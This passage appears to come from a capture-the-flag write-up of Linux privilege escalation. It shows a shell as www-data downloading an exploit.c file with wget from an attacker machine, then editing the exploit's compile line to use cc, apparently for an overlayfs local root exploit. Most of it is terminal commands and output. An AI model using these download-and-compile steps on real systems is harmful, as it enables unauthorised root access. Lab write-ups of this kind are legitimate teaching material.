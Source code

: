 ##### Victim
```highlight
www-data@ubuntu:/tmp$ wget http://<<machine IP>>/exploit.c
--2021-06-27 04:54:42--  http://<<machine IP>>/exploit.c
Connecting to <<machine IP>>:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5119 (5.0K) [text/x-csrc]
Saving to: 'exploit.c'

100%[======================================>] 5,119       --.-K/s   in 0.003s

2021-06-27 04:54:42 (1.83 MB/s) - 'exploit.c' saved [5119/5119]

www-data@ubuntu:/tmp$ 
```

The code provides the compile intructions, I simply need to run gcc and specific the output flag.

```highlight
www-data@ubuntu:/tmp$ gcc exploit.c exploit
The program 'gcc' is currently not installed. To run 'gcc' please ask your administrator to install the package 'gcc'
www-data@ubuntu:/tmp$ 
```

GCC is not installed however I can use 'cc'. However for the exploit to work I need to change a line in the file to reference cc rather than gcc.

```lib = system("cc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");```

Now the line has changed I can use cc to compile the code.

```highlight
www-data@ubuntu:/tmp$ cc exploit.c -o exploit
exploit.c:94:1: warning: control may reach end of non-void function [-Wreturn-type]
}
^
exploit.c:106:12: warning: implicit declaration of function 'unshare' is invalid in C99 [-Wimplicit-function-declaration]
        if(unshare(CLONE_NEWUSER) != 0)
           ^
exploit.c:111:17: warning: implicit declaration of function 'clone' is invalid in C99 [-Wimplicit-function-declaration]
                clone(child_exec, child_stack + (1024*1024), clone_flags, NULL);
                ^
exploit.c:117:13: warning: implicit declaration of function 'waitpid' is invalid in C99 [-Wimplicit-function-declaration]
            waitpid(pid, &status, 0);
            ^
exploit.c:127:5: warning: implicit declaration of function 'wait' is invalid in C99 [-Wimplicit-function-declaration]
    wait(NULL);
    ^
5 warnings generated.
```
